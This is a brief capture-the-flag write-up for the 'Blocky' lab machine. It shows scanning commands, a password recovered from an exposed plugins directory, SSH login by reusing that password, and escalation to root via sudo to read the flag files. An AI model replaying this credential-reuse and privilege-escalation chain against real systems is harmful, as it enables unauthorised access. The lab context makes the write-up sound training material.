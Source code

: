 # ****Blocky****

```bash
rustscan -a 10.10.10.37
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ecf0b92e-d5d2-4163-919d-dad0e034c7a8)

```bash
gobuster dir -w directory-list-2.3-medium.txt -u http://blocky.htb/ -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7d95211b-fd91-4afb-b3f4-69fe89add56d)

http://blocky.htb/plugins/
![image](https://github.com/lufffe/Writeups/assets/90646635/001486da-ddd1-48e3-bf3d-2c94e69196b8)

![image](https://github.com/lufffe/Writeups/assets/90646635/3a442b7b-377a-4924-b35f-c13c93236e5d)

root / 8YsqfCTnvxAUeduzjNSXe22

```bash
wpscan --url http://blocky.htb --enumerate u
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f8385c53-1cf5-47c1-8818-6eb7ce9e3aa0)

```bash
ssh notch@10.10.10.37
```

notch / 8YsqfCTnvxAUeduzjNSXe22

```bash
cat user.txt
```

```bash
sudo -l 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bd9bef73-1f83-4b3f-b6de-0352ee6dd704)

```bash
sudo su
```
![image](https://github.com/lufffe/Writeups/assets/90646635/608859bc-1f70-4c69-8c52-533739c8b6e0)

cat /root/root.txt

